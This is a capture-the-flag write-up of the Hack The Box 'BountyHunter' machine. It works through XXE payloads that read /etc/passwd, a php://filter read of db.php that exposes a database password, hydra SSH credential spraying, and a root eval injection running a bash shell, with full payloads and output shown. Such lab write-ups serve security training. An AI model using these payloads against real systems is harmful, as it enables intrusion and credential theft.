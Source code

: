 After a quick nmap:
#nmap #port-discovery

		sudo nmap -sS --min-rate 5000 -vvv -n -Pn -p- $(cat ip) -oN  out.nmap

We can observe a http server running on port 80
![[Pasted image 20241106131320.png]]


Then if we go to the portal we find a form:
![[Pasted image 20241106131413.png]]

If we capture the network traffic with burpsuite intercept tool the following is found:

POST /tracker_diRbPr00f314.php HTTP/1.1
Host: bountyhunters.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 223
Origin: http://bountyhunters.htb
Connection: close
Referer: http://bountyhunters.htb/log_submit.php
Priority: u=0

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5BQUFBPC90aXRsZT4KCQk8Y3dlPkJCQkI8L2N3ZT4KCQk8Y3Zzcz5DQ0NDPC9jdnNzPgoJCTxyZXdhcmQ%2BRERERDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D

The data seems to be ecnoded in URL and then in Base64:
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5BQUFBPC90aXRsZT4KCQk8Y3dlPkJCQkI8L2N3ZT4KCQk8Y3Zzcz5DQ0NDPC9jdnNzPgoJCTxyZXdhcmQ%2BRERERDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
->
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5BQUFBPC90aXRsZT4KCQk8Y3dlPkJCQkI8L2N3ZT4KCQk8Y3Zzcz5DQ0NDPC9jdnNzPgoJCTxyZXdhcmQ+RERERDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==
->
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>AAAA</title>
		<cwe>BBBB</cwe>
		<cvss>CCCC</cvss>
		<reward>DDDD</reward>
		</bugreport>


Lets try XXE (Xml eXternal Entity) to read files on the system


## Payload:

<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>

After some tries, still nothing interesting is being displayed. So, is time to learn: 
https://bugbase.ai/blog/demystifying-xxe-injection


Simply I didn't knew how to properly set the file path.

The final payload looks like:
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>&example;</title>
<cwe>2222</cwe>
<cvss>3333</cvss>
<reward>AAAA</reward>
</bugreport>

Parsed into base64 and url -> 

%50%44%39%34%62%57%77%67%49%48%5a%6c%63%6e%4e%70%62%32%34%39%49%6a%45%75%4d%43%49%67%5a%57%35%6a%62%32%52%70%62%6d%63%39%49%6b%6c%54%54%79%30%34%4f%44%55%35%4c%54%45%69%50%7a%34%4b%50%43%46%45%54%30%4e%55%57%56%42%46%49%48%52%70%64%47%78%6c%49%46%73%38%49%55%56%4f%56%45%6c%55%57%53%42%6c%65%47%46%74%63%47%78%6c%49%46%4e%5a%55%31%52%46%54%53%41%69%5a%6d%6c%73%5a%54%6f%76%4c%79%39%6c%64%47%4d%76%63%47%46%7a%63%33%64%6b%49%6a%34%67%58%54%34%4b%50%47%4a%31%5a%33%4a%6c%63%47%39%79%64%44%34%4b%50%48%52%70%64%47%78%6c%50%69%5a%6c%65%47%46%74%63%47%78%6c%4f%7a%77%76%64%47%6c%30%62%47%55%2b%43%6a%78%6a%64%32%55%2b%4d%6a%49%79%4d%6a%77%76%59%33%64%6c%50%67%6f%38%59%33%5a%7a%63%7a%34%7a%4d%7a%4d%7a%50%43%39%6a%64%6e%4e%7a%50%67%6f%38%63%6d%56%33%59%58%4a%6b%50%6b%46%42%51%55%45%38%4c%33%4a%6c%64%32%46%79%5a%44%34%4b%50%43%39%69%64%57%64%79%5a%58%42%76%63%6e%51%2b

And received from the server:

|         |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Title:  | root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin development:x:1000:1000:Development:/home/development:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin |
| CWE:    | 2222                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Score:  | 3333                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Reward: | AAAA                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |

The next step is to perform a dirsearch for the server. And we can see a db.php file.

![[Pasted image 20241106194453.png]]

To retrieve it we will need to use PHP filter to encode a resoruce as a base64 string, that we will then see in the result.

As there is an apache2 server (wappalizer or nmap will tell you) we can assume at first that the server files are hosted in `/var/wwww/html/`. And so it does.

The payload is:
`php://filter/read=convert.base64-encode/resource=/var/www/html/db.php

->
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>


After retrieving the base64 and decoding it, we find a passwd `m19RoAU0hP41A1sTsq6K`. If we perform a cut to the output of the `/etc/passwd` and try the credential we found using hydra:

`cat etc_passwd | cut -d: -f1 > users
`hydra -L users -p $(cat pass) -I ssh://$(cat ip)
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-06 19:49:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 35 login tries (l:35/p:1), ~3 tries per task
[DATA] attacking ssh://10.10.11.100:22/
[22][ssh] host: 10.10.11.100   login: development   password: m19RoAU0hP41A1sTsq6K
[22][ssh] host: 10.10.11.100   login: development   password: m19RoAU0hP41A1sTsq6K
1 of 1 target successfully completed, 2 valid passwords found

We can now login as an user and we thus obtain the user flag:

cc1f...

Reverse engineering the .py that can be run as sudo (`sudo -l` told us)

We find out that eval method is executed as root. So, we find how we need to format the .md file read by the script so that the desired payload is executed.

The md:
# Skytrain Inc
## Ticket to ASDASD
__Ticket Code:__
**123+1 and __import__('os').system('bash')

the payload -> 123+1 and __import__('os').system('bash')
